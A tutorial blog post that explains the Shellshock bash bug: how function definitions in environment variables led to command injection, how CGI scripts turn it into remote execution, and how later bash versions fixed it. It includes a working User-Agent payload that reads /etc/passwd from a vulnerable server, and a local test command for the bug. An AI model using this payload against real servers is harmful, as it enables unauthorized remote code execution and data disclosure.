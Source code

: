 ```yaml
---
title: ShellShock - Diving Deep Into The Shock
tags: Shellshock Bash BashBug Shell CGI
article_header:
  type: 
  image:
   #src: 
sidebar: 
  nav: blogs
---
```


*If you think adding some random characters in the user-agent header gives you a shell is magic, it's time for you to understand the trick.*

## Introduction

Shellshock, also known as bash bug is a vulnerability in bash shell that exists due to how the bash shell processes environment variables when they are passed to a child process. When we refer to ShellShock, we refer to a class of vulnerabilities that occurs in bash shell.

Let's say we have a bash environment, where we want to create a function and call it whenever. we want to. We could do this in a standard bash format.

```bash
func() { echo "this is my function"; }
```

Now we can call this function, whenever we want. The problem with this method is accessibility i.e. we won't be able to call this function in any of the child process. We can try this using the following command.

```bash
func() { echo "this is my function"; } ; bash -c func
```

![t](/Images/shellshock/1.png){:.shadow}

We can overcome this problem with the help of environment variables. Environment variable are variables that contains information about our current shell. This includes,  paths, history size, prompt format etc. Now let's define the same function, but this time we'll make it an environment variable.

```bash
func='() { echo "this is my function"; }'
export func
```

The above command will create an environment variable called `func` with the function definition. Now whenever this parent process/our current shell, creates any other process, this function definition will be passed to the child process in form of environment variables.

![t](/Images/shellshock/2.png){:.shadow}

1. In first line we declare a function `func`
2. In second line we export it to make it an environment variable
3. In fifth line, we create a child process bash
4. In the sixth line, we can see the function has automatically been passed to child process and will be called, every time we type `func`.

We can see the function definition in by typing `env`.

![t](/Images/shellshock/3.png){:.shadow}

The way this environment variable function definition works is, when the environment variable function definition is passed to the child process, the child process first checks if the variable contains a function definition by searching for `() {`.

Once it finds a function definition, it simply replaces `=` with a blank space.

```bash
func='() { echo "this is my function"; }'
# After passing to child process becomes
func () { echo "this is my function"; }
```

Once the function is defined in the child process, we simply call it by it's name. Pretty simple.

## The Caveat 

Up until this point, everything looks normal, so how does `Shellshock` fit into picture and what's the bug here. Let's do a little experiment, let's define the the same function, but with a minor change.

```bash
func='() { echo "this is my function"; };id'
export func
```

Now create a child process

![t](/Images/shellshock/4.png){:.shadow}

Wait, did you notice something weird ? We did not call the function, but the command that we supplied is executed automatically as an individual command by the child process. The child process replaces `=` with a blank space, which completes the function definition, the next command is left unprocessed and is executed by the shell. Meaning, we can inject any command in the function definition environment variable and execute command on the target server i.e. `Shellshock`.

But what's the point of getting a code execution in your own terminal ? We need to find vectors through which we can remotely inject function definition into environment variables. This is where CGI scripts come into picture.

## Common Gateway Interface

Common Gateway Interface, commonly also known as CGI is an interface that allows the system to process data from a web server and supply it as arguments to a command line script to perform some operations and generate the dynamic response. These scripts can be written in perl, C, bash, ruby etc.

## CGI Script

A Common Gateway Interface Script, is the script which is executed by the server, when CGI is called. The way the data is supplied from web server to the CGI script, is through the help of environment variables eg: `QUERY_STRING`, `REMOTE_HOST`, `REQUEST_METHOD` etc.

Let's spin up a web server and run a CGI script that prints the environment variables.

Configuring Apache

```bash
# Add alias so /cg-bin/ resolves to /path/to/cgi-directory/ for script location
ScriptAlias /cgi-bin/ /path/to/cgi-directory/
<Directory /path/to/cgi-directory>
  Options +ExecCGI # enable execution of cgi scripts
  AddHandler cgi-script sh # execute only shell scripts
  AllowOverride None # overrride any other config, if there's a conflict
</Directory 
```

Our CGI Script

```bash
!#/bin/bash

echo "Content-Type: text/html"
echo ""
echo "<pre>"
/usr/bin/env
echo "</pre>"
```

Let's access the CGI script from our browser.

![t](/Images/shellshock/env-vars.png){:.shadow}

We can see all the environment variables passed to the CGI script, now if we want we can also access any of the environment variables from our CGI script, let's try to print the user-agent header.

```bash
#!/bin/bash

echo "Content-Type:  text/html"
echo ""
echo "<pre>"
echo "User Agent ->" $HTTP_USER_AGENT
echo "</pre>"
```

Save the cgi script and reload the page

![t](/Images/shellshock/user-agent.png){:.shadow}

## CGIS As Shock Vector

Now that we have a way to inject into environment variables remotely, let's put the pieces together and see the magic. Given that the remote server is running CGI scripts on a vulnerable version of bash, we can remotely inject system commands and get remote code execution on the target server. Let's understand the flow of execution first.

![t](/Images/shellshock/5.png){:.shadow}

1. The client calls the CGI script web server by visiting `https://vulnerable.com/cgi-bin/cgi.sh`
2. The server which is itself a process, create a child process where the cgi script is executed and passes all the information in environment variables.
3. Once the script executes, it prints out the output and the server sends it back to the client in response.

## Sending The Shock

Using the same old bash script that we are running, this time let's inject something interesting into the user agent header.

```bash
() { :; }; echo $(</etc/passwd)

# () -> defining a function with no name
# { } -> function body goes in here
# : -> a valid bash command
# ; -> specify end of command
# echo $(</etc/passwd) -> to display back the contents of /etc/passwd
```

Finally, let's send the request

![t](/Images/shellshock/data.png){:.shadow}

## Treating The Shock

Shellshock was first reported in 2014, [CVE-2014-6271][https://nvd.nist.gov/vuln/detail/cve-2014-6271], all versions of bash are vulnerable to Shellshock up until version 4.3. The latest version of bash is 5.2, since most of the systems are now running latest version of bash, it is less likely that you'll find this in the wild, as majority of the systems have already been patched. 

If we try to use the same payload that we used before to test shell shock, it won't work. Instead of replacing  `=` in function definition when passed to child process, bash now stores it into a variable instead i.e `BASH_FUNC_func%%`.

![t](/Images/shellshock/patched.png){:.shadow}

You can test you bash environment for Shellshock, by running the following command.

```bash
env x='() { :;}; echo Vulnerable' bash -c "echo Not Vulnerable"
# env : to set the environment variable x
# bash : to create a child process
```

I hope you enjoyed this exploration of Shellshock, stay tuned for more such deep dives, i have recently started a new venture called Surakshyaan, you can follow us on Instagram at @Surakshyaan and subscribe to our Youtube Channel at @Surakshyaan where we try to mix up some humour with cybersecurity.

*Stay Safe, Keep Hacking*





